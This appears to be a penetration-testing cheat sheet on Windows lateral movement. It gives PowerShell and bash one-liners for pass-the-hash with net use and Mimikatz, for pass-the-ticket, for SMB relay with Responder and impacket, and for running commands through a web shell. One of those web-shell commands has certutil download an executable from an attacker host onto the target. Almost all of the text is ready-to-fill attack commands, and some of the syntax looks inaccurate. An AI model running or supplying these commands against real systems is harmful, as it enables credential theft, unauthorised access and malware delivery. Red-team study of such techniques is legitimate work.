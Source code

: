 #### Pass-The-Hash using PowerShell and PSExec
```powershell
Invoke-Command -ComputerName <target_ip> -ScriptBlock {
    net use \\<target_ip>\IPC$ /user:<domain>\<username> <NTLM_hash>
}
```

#### Pass-the-Hash Using PowerShell Over SMB
```powershell
net use \\<target_ip>\C$ /user:<domain>\<username> /password:<NTLM_hash>
```

#### Pass-the-Hash via Mimikatz
```powershell
Invoke-Expression -Command "Invoke-Mimikatz -Command 'sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:powershell.exe'"
```

- Create a New SMB Session Using Pass-the-Hash:
	```powershell
	$SecPassword = ConvertTo-SecureString "<ntlm_hash>" -AsPlainText -Force
	$Cred = New-Object System.Management.Automation.PSCredential ("<domain>\<user>", $SecPassword)
	New-SMBSession -Credential $Cred -ComputerName <target_ip>
	```

#### Pass-the-Ticket (Kerberos)
- Use Kerberos Ticket for Remote Access:
	```powershell
	klist purge
	Invoke-Mimikatz -Command '"kerberos::ptt <ticket_file>.kirbi"'
	Enter-PSSession -ComputerName <target_ip> -Credential <domain>\<user>
	```

#### SMB Relay via Responder
- Start Responder on Attack Host:
	```bash
	sudo responder -I eth0 -wrfPv
	```
- Relay NTLM via `impacket-smbrelayx`:
	```bash
	impacket-smbrelayx -h <target_ip> -c "powershell -NoProfile -Command {Get-Process}"
	```

# Lateral Movement via Web Exploits and Web Shells

#### Using Web Shells for Command Execution
- Execute a Command Through a Web Shell:
	```powershell
	Invoke-WebRequest -Uri "http://<target_ip>/webshell?cmd=<command>" -UseBasicParsing
	```
- Upload a File Through a Web Shell:
	```powershell
	Invoke-WebRequest -Uri "http://<target_ip>/webshell?cmd=certutil+-urlcache+-split+-f+http://<attack_ip>/file.exe+C:\temp\file.exe" -UseBasicParsing
	```
